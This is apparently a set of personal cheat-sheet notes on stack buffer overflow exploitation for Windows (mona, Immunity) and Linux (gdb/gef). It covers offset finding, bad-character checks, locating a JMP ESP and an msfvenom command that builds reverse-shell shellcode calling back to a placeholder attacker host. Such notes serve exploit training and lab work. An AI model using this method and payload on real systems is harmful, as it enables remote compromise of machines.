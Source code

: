 Ascii transfers over Netcat won't work use a python script.

https://shell-storm.org/shellcode/index.html

## Windows 
```
!mona config -set workingfolder c:\mona\%p
!mona bytearray -b "\x00"
```

fuzzbof.py
```bash
msf-pattern_create -l $int
```

enumeip.py
```powershell
!mona findmsp -distance $int
# Right Click -> Copy full line of EIP
```
No mona:
```bash
msf-pattern_offset -q $eip_address 
```

enumbadchars.py
```powershell
# use brain see CPU 
# address to which the ESP register point
!mona compare -f C:\mona\$bin\bytearray.bin -a $address
# Collect and deduce bad chars, remember corrupt to next byte so double check with updated enumbadchars.py
```

`!mona jmp -r esp -cpb "$badchars"`
If need to:
`ctrl + g` go to `$esp_address`
`f2` breakpoint on `$esp_address`
Step into  `F7`

`msfvenom -p windows/shell_reverse_tcp -a x$arch LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b $badchars -f py -v shellcode`


## Linux 
[guyinatuxedo](https://guyinatuxedo.github.io/index.html) [gef commands](https://hugsy.github.io/gef/commands/aliases/)

Dissemble 
`checksec`
`objdump -D $binary | grep -i $`
`gdb $binary`

```bash
gef> r # run binary
```
fuzzbof.py
```bash
gef> pattern create <size>
# copy and paste 
run <paste pattern at correct stage of the program>
# look at *sp register address 
gef> pattern search $string_in_rsp
# for stack bufferover flow note *ip register address 
info functions
# Check register
info register
x/100x $rsp
x/100x $rsp-$RECONINT
```



